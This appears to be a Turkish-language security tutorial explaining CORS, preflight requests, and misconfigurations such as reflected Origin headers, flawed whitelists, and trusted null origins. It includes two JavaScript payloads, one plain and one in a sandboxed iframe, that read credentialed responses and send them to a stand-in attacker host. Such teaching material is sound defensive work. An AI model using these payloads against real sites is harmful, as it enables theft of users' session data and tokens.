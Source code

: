 # CORS nedir?
CORS, SOP kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır. Tarayıcılar bir web uygulamasının kendi origin'i dışındaki bir origin'e doğrudan istek göndermesini engeller. Ancak bu günümüzde oldukça fazla gerekli olur (örnek: Frontend: example.com, API: api.example.com)

# Origin nedir?
Bir origin şu 3 parçadan oluşur:

- Protokol: `http`, `https`
- Host: `example.com`
- Port: `80`, `443`

Örnek:
![alt text](image.png)

# Preflight Request Nedir?
Tarayıcının CORS kuralları kapsamında asıl isteği göndermeden önce hedef sunucudan izin alıp almadığını kontrol etmek için yaptığı bir OPTIONS isteğidir. Sunucu bu isteğe uygun Access-Control-Allow-* header'larıyla cevap verirse tarayıcı asıl isteği gönderir aksi halde işlem engellenir.

# Origin Header’ı Yansıtarak Dinamik ACAO Üretimi
Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle gelen HTTP isteğindeki Origin header'ını okuyup bunu doğrudan yanıtta Access-Control-Allow-Origin header’ı olarak yansıtarak yapılır.

Aşağıdaki isteği ele alalım:
```http
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...  
```

Sunucu şu şekilde yanıt verirse:
```http
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...
```

Bu header’lar, isteğin geldiği domain olan malicious-website.com alanına erişim izni verildiğini, ayrıca çerez gibi kimlik doğrulama bilgileri içeren isteklerin de kabul edildiğini belirtir (Access-Control-Allow-Credentials: true). Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

Bu uygulama, Access-Control-Allow-Origin header’ında herhangi bir Origin değerini yansıtıyorsa, herhangi bir domain, hedef uygulamadan veri okuyabilir hale gelir. Eğer yanıt, bir API anahtarı, CSRF token’ı ya da benzeri hassas veri içeriyorsa, saldırgan bunu kendi web sitesine koyacağı şu JavaScript ile kolayca elde edebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Origin Header'larının Ayrıştırılmasında Hatalar
Bazı uygulamalar, birden fazla origin'e erişimi desteklemek için whitelist kullanır.

Örneğin uygulama aşağıdaki gibi istek alır:
```http
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com
```

Uygulama, gelen Origin değerini beyaz listedeki domain'lerle karşılaştırır ve eğer uygunsa aşağıdaki gibi yanıt verir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com
```

Ancak CORS whitelist mantığı uygulanırken sıkça hatalar yapılır. Bazı organizasyonlar, mevcut ve gelecekteki tüm alt domain’lere izin verecek şekilde yapılandırma yapar. Bu kurallar genellikle prefix, suffix veya regez ile tanımlanır. Bu yapılandırmanın yanlış uygulanması kontrol dışı domain'lere erişim izni verilmesine yol açabilir.

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek amacıyla null origin değerine izin verebilir:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Sunucu yanıtı aşağıdaki gibi verebilir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.

Aşağıdaki payload, bir data: URI’si içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Bu teknikle Origin: null ile yapılan istek, sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.

Referanslar:
- https://portswigger.net/web-security/cors
- https://aws.amazon.com/tr/what-is/cross-origin-resource-sharing/

Tools:
- https://github.com/chenjj/CORScanner.git
